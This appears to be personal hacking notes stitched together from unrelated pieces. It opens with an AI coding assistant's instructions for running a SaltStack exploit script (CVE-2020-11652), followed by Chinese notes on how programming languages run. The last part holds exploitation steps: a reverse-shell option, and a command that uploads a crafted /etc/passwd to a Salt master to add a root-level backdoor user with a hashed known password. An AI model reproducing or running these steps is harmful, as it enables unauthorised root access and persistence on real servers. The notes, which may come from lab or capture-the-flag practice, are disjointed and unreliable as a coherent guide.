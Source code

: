 
Trae

Used 1 context

I see that we're having connectivity issues with the SaltStack repository, and the system package installation approach isn't working. Let's try a different approach using Python virtual environment:

1. First, create and activate a new virtual environment:

```Plain
python -m venv salt-env
```

```Plain
source salt-env/bin/activate
```

1. Install the required packages using pip:

```Plain
pip install salt PyYAML
```

1. After the installation completes, run your script while the virtual environment is active:

```Plain
python CVE-2020-11652.py
```

This approach should work better because:

- It isolates the dependencies from your system Python
- It doesn't require system-wide package installation
- It can install packages directly from PyPI without needing the SaltStack repository
- It will automatically handle all the necessary dependencies  
    If you want to deactivate the virtual environment later, you can simply run:

```Plain
deactivate
```

1. **解释型语言**（interpreter）通常可以直接把源文件交给解释器运行，扩展名只是方便识别：  
    例：Python、Bash、Perl、Ruby、Node.js（JS）等。你可以 `python file.txt`、`bash file`，也可以加 shebang 并 `chmod +x` 后直接 `./file`。
    
2. **编译型语言**（compiled）通常必须先编译成二进制或中间格式，才能运行：  
    例：Go、Rust、C、C++。你通常执行 `go build` / `rustc` / `gcc` 生成可执行文件再运行，扩展名不影响生成的可执行文件（Linux 下没有 `.exe` 必须名，Windows 下生成的是 `.exe`）。
    
3. **有运行时/虚拟机的语言**（VM/bytecode）需要先转为字节码或打包然后用运行时运行：  
    例：Java（`javac` -> `.class` -> `java` 或 `jar` + `java -jar`）、C#（编译成 IL 用 .NET 运行）。这类语言直接把源码传给 `java` 通常不行（有 `jshell` 交互器除外）。
    
4. **shebang（#!）只对类 Unix 可执行文件有意义**，且只适用于能被某个解释器直接执行的脚本。二进制或需要编译的源码放 shebang 没意义（系统不会把它交给编译器自动编译）。


two way
1, use --exec get a rev shell
2, write a new user in side of /etc/passwd, use 
```
python3 1.py --master 192.168.222.62 --upload-src new_passwd --upload-dest tmp/new_passwd
```
```
openssl passwd -1 password123                                
$1$umJyW9/u$WOvkINj0kCo4.hBmxM2Ut/
```
```
haha:$1$umJyW9/u$WOvkINj0kCo4.hBmxM2Ut/:0:0:root:/root:/bin/bash

```
haha:  username
password123: password

- **haha**：用户名。
- **$1$umJyW9/u$WOvkINj0kCo4.hBmxM2Ut/**：密码字段，使用MD5算法加密的密码哈希（`$1$`表示MD5）。
- **0**：用户ID（UID），0通常代表root权限。
- **0**：组ID（GID），0通常是root组。
- **root**：用户描述信息。
- **/root**：用户主目录。
- **/bin/bash**：登录Shell。

openssl passwd -1 password123

`-1` 是 `openssl passwd` 命令的一个参数，表示使用 **MD5-based password algorithm** 来生成加密密码哈希。

具体说明：

- `openssl passwd -1 <password>`  
    使用MD5算法生成密码的哈希值，输出格式类似于 `$1$salt$hashed`，这是Apache等服务常用的MD5密码格式。
